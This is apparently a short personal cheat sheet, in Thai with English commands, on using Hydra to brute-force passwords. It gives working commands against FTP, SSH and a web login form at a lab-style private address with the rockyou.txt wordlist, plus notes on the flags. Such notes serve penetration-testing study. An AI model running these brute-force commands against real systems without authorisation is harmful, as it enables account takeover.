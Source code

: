 #web #network 
# What
- Bruteforce ได้ทุกอย่าง
# Command
FTP
```bash
hydra -l user -P passlist.txt ftp://10.10.15.171
```
SSH
```bash
hydra -l molly -P rockyou.txt 10.10.15.171 -t 4 ssh
```
Website
```bash
hydra -l molly -P rockyou.txt 10.10.15.171 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect” -V
```
Syntax
- /login = ตำแหน่งที่จะ bruteforce
- username=^USER^&password=^PASS^ = หาจาก bur psuit
- F=incorrect = ข้อความตอบกลับเวลารหัสผิด
- -l = username 
- -P = password 
- -t = กำหนดจำนวนเธรดที่จะสร้าง 
- -V = แสดงรหัสที่ลองทั้งหมด